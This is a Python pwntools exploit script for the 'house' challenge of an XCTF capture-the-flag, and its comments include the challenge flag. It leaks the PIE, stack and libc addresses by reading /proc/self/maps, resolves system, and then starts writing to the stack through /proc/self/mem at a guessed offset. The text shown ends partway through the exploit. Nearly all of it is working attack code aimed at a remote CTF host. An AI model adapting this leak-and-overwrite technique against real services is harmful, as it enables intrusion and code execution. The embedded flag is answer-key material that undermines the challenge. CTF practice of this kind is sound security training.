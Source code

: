 ```
#coding:utf-8
from pwn import *
from ctypes import *
debug = 1
elf = ELF('./house')
#xctf{f58867c788e259cdb9143ddf9ec53bbd}
if debug:
	p = process('./house')
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
	#context.log_level = 'debug'
else:
	p = remote('111.198.29.45',32285)
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
	#off = 0x001b0000
	#context.log_level = 'debug'

p.recvuntil('Y/n')
p.sendline('y')
p.recvuntil('Exit')
p.sendline('1')
p.recvuntil('finding?')

p.sendline('/proc/self/maps')
p.recvuntil('Exit')
p.sendline('3')
p.recvuntil('get?')
p.sendline('10000')
p.recvuntil('something:\n')

pie = int('0x'+p.recvuntil('-')[:-1],16)
print '[+] pie:',hex(pie)

while 1:
	a = p.recvline()
	if 'heap' in a:
		a = p.recvline()
		stack_start = int(a.split('-')[0],16)
		stack_end = int((a.split('-')[1]).split(' ')[0],16)
		print '[+] stack_start:',hex(stack_start)
		print '[+] stack_end:',hex(stack_end)
		break
while 1:
	a = p.recvline()
	if 'libc' in a:
		libc.address = int(a.split('-')[0],16)
		print '[+] system:',hex(libc.symbols['system'])
		break

#pause()
canary = 0
p.recvuntil('Exit')
p.sendline('1')
p.recvuntil('finding?')
p.sendline('/proc/self/mem')
p.recvuntil('Exit')
p.sendline('2')
p.recvuntil('you?')

# stack from high to low address
stack_guess = 0xf800000
p.sendline(str(stack_end - stack_guess - 24*100000))   # offset
print '[+] offset from ',hex( stack_guess + 24*100000),'to',hex(stack_guess)
print '[+] from ',hex(stack_end - stack_guess - 24*100000),'to',hex(stack_end - stack_guess)
```